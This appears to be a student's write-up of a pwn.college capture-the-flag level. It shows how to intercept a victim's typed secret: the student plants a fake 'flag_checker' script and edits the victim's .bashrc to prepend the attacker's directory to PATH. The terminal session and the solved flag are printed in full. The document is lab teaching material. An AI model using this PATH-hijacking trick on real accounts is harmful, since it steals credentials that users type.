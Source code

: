 ## Sniffing Input
In the previous level, you abused Zardus's ~/.bashrc to make him run commands for you.

This time, Zardus doesn't keep the flag lying around in a readable file after he logs in. Instead he'll run a command named flag_checker, manually typing the flag into it for verification.

Your mission is to use your continued write access to Zardus's .bashrc to intercept this flag. Remember how you hijacked commands in the Pondering PATH module? Can you use that capability to hijack the flag_checker?

HINT: Is Zardus getting spooked by your hijack? He's careful --- he checks for the flag_checker prompt of Type the flag. Make sure your hijack also prints this prompt (e.g., echo "Type the flag"). Other than printing that prompt, your fake flag_checker can either just a) cat Zardus's input to stdout (e.g., cat with no arguments) or b) read it into a variable and echo it out. Up to you!

HINT: Don't forget to make your fake flag_checker executable, like you learned in the Perceiving Permissions module!

### Solve
**Flag: pwn.college{U83Rb158xTj98FGLSMTtYeMiadN.0VNzEzNxwyNwAzNzEzW}**

```bash
hacker@shenanigans~sniffing-input:~$ nano /home/hacker/flag_checker
  GNU nano 8.4                                          /home/hacker/flag_checker                                                       #!/bin/bash

  echo "Type the flag"
  cat
hacker@shenanigans~sniffing-input:~$ chmod +x /home/hacker/flag_checker
hacker@shenanigans~sniffing-input:~$ nano /home/zardus/.bashrc
  GNU nano 8.4                                            /home/zardus/.bashrc                                                           # this sets up a scary red shell prompt!
  PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

  # add your attack below this line!
  export PATH="/home/hacker:$PATH"
hacker@shenanigans~sniffing-input:~$ /challenge/victim
Username: zardus
Password: **********
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag
*************************************************************pwn.college{U83Rb158xTj98FGLSMTtYeMiadN.0VNzEzNxwyNwAzNzEzW}
exit
```
I made a script for my own flag_checker in my own home directory, which echoed type the flag and catted the flag itself inputted by the user, then changed the permissions of the flag checker script file to make it executable. Then, editted the startup script of the victim zardus and exported PATH from my shell to add it to zardus and in that, I set the PATH variable to my home directory with the $PATH variable to have the original path content aswell to builtin run commands and then ran /challenge/victim to successfully print out the flag that the victim typed in.  

